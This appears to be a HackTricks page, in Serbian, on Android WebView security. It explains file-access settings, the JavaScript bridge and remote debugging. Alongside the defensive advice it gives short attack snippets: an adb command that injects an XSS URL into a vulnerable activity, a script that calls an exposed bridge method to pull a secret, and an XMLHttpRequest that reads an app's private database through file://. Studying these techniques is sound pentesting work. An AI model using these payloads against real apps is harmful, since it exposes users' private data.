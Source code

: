 # Webview Attacks

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Vodič o WebView konfiguracijama i bezbednosti

### Pregled WebView ranjivosti

Kritičan aspekt Android razvoja uključuje pravilno rukovanje WebView-ima. Ovaj vodič ističe ključne konfiguracije i bezbednosne prakse za smanjenje rizika povezanih sa korišćenjem WebView-a.

![WebView Example](<../../.gitbook/assets/image (1190).png>)

### **Pristup datotekama u WebView-ima**

Po defaultu, WebView-ima je dozvoljen pristup datotekama. Ova funkcionalnost se kontroliše metodom `setAllowFileAccess()`, dostupnom od Android API nivoa 3 (Cupcake 1.5). Aplikacije sa dozvolom **android.permission.READ\_EXTERNAL\_STORAGE** mogu čitati datoteke sa spoljnog skladišta koristeći shemu URL-a za datoteke (`file://path/to/file`).

#### **Zastarjele funkcije: Univerzalni i pristup datotekama sa URL-ova**

* **Univerzalni pristup sa URL-ova datoteka**: Ova zastarela funkcija je omogućavala cross-origin zahteve sa URL-ova datoteka, predstavljajući značajan bezbednosni rizik zbog potencijalnih XSS napada. Podrazumevana postavka je onemogućena (`false`) za aplikacije koje cilјaju Android Jelly Bean i novije.
* Da biste proverili ovu postavku, koristite `getAllowUniversalAccessFromFileURLs()`.
* Da biste izmenili ovu postavku, koristite `setAllowUniversalAccessFromFileURLs(boolean)`.
* **Pristup datotekama sa URL-ova datoteka**: Ova funkcija, takođe zastarela, kontrolisala je pristup sadržaju sa drugih URL-ova sheme datoteka. Kao i univerzalni pristup, njena podrazumevana postavka je onemogućena radi poboljšane bezbednosti.
* Koristite `getAllowFileAccessFromFileURLs()` da proverite i `setAllowFileAccessFromFileURLs(boolean)` da postavite.

#### **Sigurno učitavanje datoteka**

Za onemogućavanje pristupa sistemu datoteka dok se i dalje pristupa resursima i sredstvima, koristi se metoda `setAllowFileAccess()`. Sa Android R i novijim, podrazumevana postavka je `false`.

* Proverite sa `getAllowFileAccess()`.
* Omogućite ili onemogućite sa `setAllowFileAccess(boolean)`.

#### **WebViewAssetLoader**

Klasa **WebViewAssetLoader** je savremeni pristup za učitavanje lokalnih datoteka. Koristi http(s) URL-ove za pristup lokalnim sredstvima i resursima, usklađujući se sa politikom iste porekla, čime se olakšava upravljanje CORS-om.

### loadUrl

Ovo je uobičajena funkcija koja se koristi za učitavanje proizvoljnih URL-ova u webview:
```java
webview.loadUrl("<url here>")
```
Ofc, potencijalni napadač nikada ne bi trebao moći **kontrolisati URL** koji aplikacija učitava.

### **JavaScript i rukovanje Intent shemama**

* **JavaScript**: Onemogućen po defaultu u WebView-ima, može se omogućiti putem `setJavaScriptEnabled()`. Preporučuje se oprez jer omogućavanje JavaScript-a bez odgovarajućih zaštita može uvesti sigurnosne ranjivosti.
* **Intent shema**: WebView-ovi mogu obraditi `intent` shemu, što može dovesti do eksploatacija ako se ne upravlja pažljivo. Jedna ranjivost uključivala je izloženi WebView parametar "support\_url" koji se mogao iskoristiti za izvršavanje napada skriptiranja između sajtova (XSS).

![Vulnerable WebView](<../../.gitbook/assets/image (1191).png>)

Primer eksploatacije koristeći adb:

{% code overflow="wrap" %}
```bash
adb.exe shell am start -n com.tmh.vulnwebview/.SupportWebView –es support_url "https://example.com/xss.html"
```
{% endcode %}

### Javascript Bridge

Funkcija koju pruža Android omogućava **JavaScript-u** u WebView-u da poziva **nativne Android funkcije aplikacije**. To se postiže korišćenjem `addJavascriptInterface` metode, koja integriše JavaScript sa nativnim Android funkcionalnostima, nazvanim _WebView JavaScript bridge_. Potrebna je opreznost jer ova metoda omogućava svim stranicama unutar WebView-a da pristupe registrovanom JavaScript Interface objektu, što predstavlja sigurnosni rizik ako se osetljive informacije izlože putem ovih interfejsa.

* **Ekstremna opreznost je potrebna** za aplikacije koje cilјaju Android verzije ispod 4.2 zbog ranjivosti koja omogućava dalјinsko izvršavanje koda putem zlonamernog JavaScript-a, koristeći refleksiju.

#### Implementacija JavaScript Bridge-a

* **JavaScript interfejsi** mogu interagovati sa nativnim kodom, kao što je prikazano u primerima gde je metoda klase izložena JavaScript-u:
```javascript
@JavascriptInterface
public String getSecret() {
return "SuperSecretPassword";
};
```
* JavaScript Bridge se omogućava dodavanjem interfejsa u WebView:
```javascript
webView.addJavascriptInterface(new JavascriptBridge(), "javascriptBridge");
webView.reload();
```
* Potencijalna eksploatacija putem JavaScript-a, na primer, putem XSS napada, omogućava pozivanje izloženih Java metoda:
```html
<script>alert(javascriptBridge.getSecret());</script>
```
* Da biste smanjili rizike, **ograničite korišćenje JavaScript mosta** na kod koji je isporučen sa APK-om i sprečite učitavanje JavaScript-a iz udaljenih izvora. Za starije uređaje, postavite minimalni API nivo na 17.

### Izvršenje daljinskog koda zasnovano na refleksiji (RCE)

* Dokumentovana metoda omogućava postizanje RCE putem refleksije izvršavanjem specifičnog payload-a. Međutim, `@JavascriptInterface` anotacija sprečava neovlašćen pristup metodama, ograničavajući površinu napada.

### Daljinsko debagovanje

* **Daljinsko debagovanje** je moguće sa **Chrome Developer Tools**, omogućavajući interakciju i proizvoljno izvršavanje JavaScript-a unutar WebView sadržaja.

#### Omogućavanje daljinskog debagovanja

* Daljinsko debagovanje može biti omogućeno za sve WebView-ove unutar aplikacije na sledeći način:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
WebView.setWebContentsDebuggingEnabled(true);
}
```
* Da uslovno omogućite debagovanje na osnovu stanja debagovanja aplikacije:
```java
if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.KITKAT) {
if (0 != (getApplicationInfo().flags & ApplicationInfo.FLAG_DEBUGGABLE))
{ WebView.setWebContentsDebuggingEnabled(true); }
}
```
## Ekstrakcija proizvoljnih fajlova

* Prikazuje ekstrakciju proizvoljnih fajlova koristeći XMLHttpRequest:
```javascript
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
alert(xhr.responseText);
}
}
xhr.open('GET', 'file:///data/data/com.authenticationfailure.wheresmybrowser/databases/super_secret.db', true);
xhr.send(null);
```
## Reference

* [https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html](https://labs.integrity.pt/articles/review-android-webviews-fileaccess-attack-vectors/index.html)
* [https://github.com/authenticationfailure/WheresMyBrowser.Android](https://github.com/authenticationfailure/WheresMyBrowser.Android)
* [https://developer.android.com/reference/android/webkit/WebView](https://developer.android.com/reference/android/webkit/WebView)
* [https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1](https://medium.com/@justmobilesec/deep-links-webviews-exploitations-part-ii-5c0b118ec6f1)
* [https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-I)

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrška HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
